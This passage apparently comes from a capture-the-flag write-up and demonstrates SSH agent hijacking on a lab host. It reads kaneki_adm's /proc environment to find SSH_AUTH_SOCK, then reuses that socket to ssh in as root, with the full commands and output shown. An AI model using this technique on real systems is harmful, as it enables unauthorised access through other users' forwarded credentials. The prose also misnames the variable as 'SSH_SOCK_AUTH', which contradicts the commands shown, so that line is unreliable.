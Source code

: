 That last line doesn’t show up every time, but i caught it sometimes, and it tips where to go next. I can try myself. User 1001 is kaneki\_adm. I’ll `su` from root to that user, and try to ssh:

```

root@kaneki-pc:/home/kaneki_pub# su kaneki_adm
kaneki_adm@kaneki-pc:/home/kaneki_pub$ ssh root@172.18.0.1 -p 2222
kaneki_adm@kaneki-pc:/home/kaneki_pub$ 

```

It didn’t work.

### SSH Agent Hijacking

Imaging a situation where I want to ssh into box A, but my host can’t talk to A. I need to go through an intermediary, box B. But I don’t want to leave my private keys on B, for whatever reason. SSH Agent Forwarding is set up to address this problem. It allows for keeping access to the private key over a socket so I can authenticate to A.

[SSH Agent Hijacking](https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/) is exploiting SSH Agent Forwarding to ride that authentication.

If I watch right around the time the ssh connection comes in, I’ll see a file is created in `/tmp` (`<--` added by me):

```

root@kaneki-pc:/home/kaneki_pub# find /tmp/
/tmp/
/tmp/ssh-FWSgs7xBNwzU
/tmp/ssh-oomPLQAtpL
/tmp/ssh-oomPLQAtpL/agent.646  <-- this
/tmp/ssh-1Oo5P5JuouKm
/tmp/sshd-stderr---supervisor-ICnHxt.log
/tmp/sshd-stdout---supervisor-93vAhz.log
/tmp/ssh-jDhFSu7EeAnz

```

That `agent.646` file is the socket for authentication. To perform a hijack, I need to set the environment variable `SSH_SOCK_AUTH` to that `agent` file, and then just ssh without a password. But the folder and number will change on each connection, and it doesn’t stay live for very long at all.

I can pull this off manually if I’m fast, waiting for just the turn of the minute, then get the `agent` file from kaneki\_adm’s environment variables. Then I set the environment variable for myself, and ssh in. I managed to do it:

```

root@kaneki-pc:~# pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2) su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773

root@kaneki-pc:~# SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773 ssh root@172.18.0.1 -p 2222
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

155 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```